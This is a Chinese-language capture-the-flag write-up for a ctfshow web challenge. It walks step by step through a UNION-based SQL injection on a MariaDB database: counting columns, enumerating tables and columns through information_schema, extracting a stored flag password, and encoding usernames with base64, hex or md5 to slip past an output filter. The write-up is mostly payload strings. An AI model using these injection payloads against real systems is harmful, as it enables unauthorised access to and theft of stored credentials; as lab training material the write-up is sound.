


存在返回值过滤

及用户名中不能存在flag


闭合单引号并注释后面语句

```
' --+
```




利用order by测试回显数

```
1' order by 4--+
```



当order by 4时异常


```
1' order by 2--+
```



当order by 2时正常显示

即有两个回显数


利用联合查询判断回显位

```
-1' union select 1,2 --+
```



两个回显位


获取数据库名和用户信息

```
-1' union select database(),user() --+
```



数据库：ctfshow_web

用户：root


获取版本信息

```
-1' union select 1,version() --+
```



版本信息：10.3.18-MariaDB


查询表名

```
-1' union select 1,table_name from information_schema.tables where table_schema='ctfshow_web' --+
```



ctfshow_user

ctfshow_user2


获取字段名

```
-1 'union select 1,column_name from information_schema.columns where table_name='ctfshow_user' --+
```


```
-1 'union select 1,column_name from information_schema.columns where table_name='ctfshow_user2' --+
```



都是username和password


获取字段信息，因为存在输出过滤，因此我们只查询密码

```
-1'union select 1,password from ctfshow_user where username='flag' --+
```




```
-1'union select 1,password from ctfshow_user2 where username='flag' --+
```



得到flag


或将用户名编码

base64

```
-1'union select to_base64(username),password from ctfshow_user2--+
```




hex

```
-1'union select hex(username),password from ctfshow_user2--+
```




md5

```
-1'union select md5(username),password from ctfshow_user2--+
```

